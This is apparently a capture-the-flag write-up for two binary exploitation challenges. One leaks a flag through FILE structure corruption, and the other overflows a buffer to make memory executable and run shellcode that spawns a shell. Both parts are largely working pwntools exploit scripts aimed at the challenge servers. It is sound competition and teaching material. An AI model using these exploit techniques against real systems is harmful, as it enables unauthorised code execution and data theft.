


<!--  -->

# CyCTF 2025 quals writeup

## PWN

### Challenge 1: pwn1 (500 points)

First looking at the functions found this looking like the flag is loaded in `.bss` section.


When launching the binary we get a menu:
```bash
$ ./app
1) write data
2) save
3) exit
>
```

but in the binary there is also a hidden option 1337:
```c 
if (lVar2 == 0x539) {
    puts("edit file-struct: send 256 bytes");
    read(0,fh,0x133); // This is our attack
    fwrite(&DAT_00402099,1,4,fh);
    fflush(fh);
}
```

It reads from you a file structure of size 0x133 (307 bytes) and writes 4 bytes to it.
Any way that doesn't matter cuz we will manipulate all it's functionality.
The file structure is defined as:
```c
struct FILE {
    int _flags;        // 8 bytes
    /* The following pointers correspond to the C++ streambuf protocol. */
    char *_IO_read_ptr;  /* Current read pointer */
    char *_IO_read_end;  /* End of get area. */
    char *_IO_read_base; /* Start of putback+get area. */
    char *_IO_write_base;/* Start of put area. */
    char *_IO_write_ptr; /* Current put pointer. */
    char *_IO_write_end; /* End of put area. */
    char *_IO_buf_base;  /* Start of reserve area. */
    char *_IO_buf_end;   /* End of reserve area. */
}
```
We can see that the first 8 bytes is the flags field, which is used to determine the mode of the file (read, write, etc).
So we need it to be 7 to be in write mode.
Then we can set the `write_ptr` to point to the flag location in `.bss` and `write_end` to point to the end of the flag location.
This way when the fwrite is called it will write 4 bytes from the flag location to our file structure.
So the payload will be:
File structure contains vtable, which is a pointer to a table which contains functions which are called when the original ‘FILE’ pointer is used to perform different operations (such as fread, fwrite, …).
```python
payload = b''
payload += p64(7)  # flags
payload += p64(0)  # read_ptr
payload += p64(0)  # read_end
payload += p64(0)  # read_base
payload += p64(0)  # write_base
payload += p64(flag_addr)  # write_ptr
payload += p64(flag_addr + 0x100)  # write_end
payload += p64(0)  # buf_base
payload += p64(0)  # buf_end
# Fill the rest of the structure with zeros
```
but i found an easier way to do it using `pwntools`:
```python
from pwn import *
exe = './app'
context.arch = 'amd64'
# p = process(exe)
p = remote('0.cloud.chals.io', 20465)

elf = ELF(exe)
TARGET_ADDR = elf.symbols['flag_buf']   # <--- replace with the address you want to write to

fp = FileStructure()
payload = fp.write(TARGET_ADDR, 60) # write 60 bytes from TARGET_ADDR which is our flag
print(payload)

p.recvuntil(b'> ')        # change to the actual menu prompt
p.sendline(b'1337')      # decimal 0x539
p.recvuntil(b'edit file-struct: send 256 bytes\n')   # waits for the prompt
p.send(payload)          # this runs read(0, fh, 0x133) and overwrites the FILE
print(p.recvline())
```

HORRAY


## Challenge 2: pwn2 (500 points)
Getting a straight forward buffer overflow at `local_98`
```c
local_c = 3;
char local_98 [128];
void *local_18;
int local_c;
printf("Enter your name: ");
fgets(local_98,0xa0,stdin);
```

and `local_c` is used in mmap as the permission flags
```c
local_18 = mmap((void *)0x500000,0x40000,local_c,0x21,-1,0);
```
You know that a static address is the best dream for shellcode injection.
So we can overflow `local_98` to overwrite `local_c` to 7.
Then we can write our shellcode to `0x500000` and jump to it.
But before this we need to find the offset to `local_c`.
Using `gdb` to get the offset till rbp and `local_c`:
rbp :
```asm
lea    rax,[rbp-0x90] # 144
mov    esi,0xa0
mov    rdi,rax
call   0x1060 <fgets@plt>
```
`local_c`:
```asm
mov    DWORD PTR [rbp-0x4],0x3
```
So the offset is 140 bytes then 4 bytes for `local_c` then 8 bytes for saved rbp then 8 bytes for return address.
Let's go
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')
EXE = './app'

SHELLCODE = asm(shellcraft.sh())

# Target address for our mmap region
MMAP_ADDR = 0x500000

payload = b""
payload += SHELLCODE
payload += b'A' * (140 - len(payload))
# Overwrite with 7 (PROT_READ | PROT_WRITE | PROT_EXEC)
payload += p32(7) 
payload += b'B' * 8 # overwrite 
payload += p64(MMAP_ADDR)

assert len(payload) == 160, f"Payload length is {len(payload)}, not 160"

# io = process(EXE)
io = remote('0.cloud.chals.io', 25661)
# Send the payload
io.send(payload)
print(io.recv())
io.interactive()
```

